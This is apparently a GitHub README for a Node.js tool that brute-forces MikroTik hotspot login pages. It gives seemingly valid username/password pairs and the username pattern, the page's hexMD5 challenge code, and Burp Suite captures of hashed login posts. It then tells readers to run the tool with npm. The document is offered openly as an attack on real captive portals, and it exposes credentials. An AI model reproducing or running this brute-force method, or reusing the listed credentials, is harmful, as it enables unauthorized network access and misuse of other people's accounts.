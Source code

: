 ### Brute-force attack login

The attack was only tested for the users of ***1 hour***, it is necessary to see the patron of the users of ***a month***.

## Analysis

----------
## Login
Example data valid.

```
username=1hjtd
password=263
```
![alt text](https://github.com/Juve-yescas/Brute-force-Mikrotik/blob/master/Information/Welcome-one.png "User 1hjtd")

```
username=1hmtw
password=423
```

![alt text](https://github.com/Juve-yescas/Brute-force-Mikrotik/blob/master/Information/Welcome-two.png "User 1hmtw")

#### The ip addres is this 

![alt text](https://github.com/Juve-yescas/Brute-force-Mikrotik/blob/master/Information/DHCP-example.png "My dchp config")
[![FOSSA Status](https://app.fossa.io/api/projects/git%2Bgithub.com%2FJuvenal-yescas%2FBrute-force-Mikrotik.svg?type=shield)](https://app.fossa.io/projects/git%2Bgithub.com%2FJuvenal-yescas%2FBrute-force-Mikrotik?ref=badge_shield)


## How to attack?

The patron is <kbd>1h</kbd> for username

```
username=1hjtd
password=263
```

> By right clicking > View source code for this page,
You can see that the values to create a secure password are changing on the function doLogin(), this complicates attacking directly through a direct post you plain text, the post should be done with the password already encrypted.

```
document.sendin.password.value = hexMD5('\075' + document.login.password.value + '\532\742\124\412\422\545\965\162\943\173\846\825\842\857\139\184');
document.sendin.password.value = hexMD5('\123' + document.login.password.value + '\624\077\174\275\022\150\314\272\032\201\122\170\154\311\235\102');
```

### Capturing request with burpsuite

```
username=1hjtd&password=6e7651ee150309d7da25cb30329368e2&dst=&popup=true
username=1hjtd&password=9f788a4e692207e71cdffbb921b8f8f1&dst=&popup=true
username=1hjtd&password=9f788a4e692207e71cdffbb921b8f8f1&dst=&popup=true
username=1hjtd&password=1d44ed0532a8d99b41ea8864352d9e59&dst=&popup=true
username=1hjtd&password=99b033a5dbd6ff867c265c05170e0ef1&dst=&popup=true
username=1hjtd&password=9f2611a4b2ff7f42b9e72758aeb28a52&dst=&popup=true
username=1hjtd&password=d62418f1793ab0dec2754a088d21d534&dst=&popup=true
username=1hjtd&password=d62418f1793ab0dec2754a088d21d534&dst=&popup=true
username=1hjtd&password=00cfe5b8e01a385d18a29b459f349823&dst=&popup=true
```
> **Note:** The password changes every time a request is made.

## Post example to attack

```
username: 1hjtd
password: 00cfe5b8e01a385d18a29b459f349823

burpsuite capture: 

username=1hjtd&password=00cfe5b8e01a385d18a29b459f349823&dst=&popup=true
```

## How to use this tool?

Must have installed Nodejs and internet connection.

Clone this repository and in the folder **Hack-Mikrotik-Login** execute this command.

```
$ npm install
$ npm start
```

## License
[![FOSSA Status](https://app.fossa.io/api/projects/git%2Bgithub.com%2FJuvenal-yescas%2FBrute-force-Mikrotik.svg?type=large)](https://app.fossa.io/projects/git%2Bgithub.com%2FJuvenal-yescas%2FBrute-force-Mikrotik?ref=badge_large)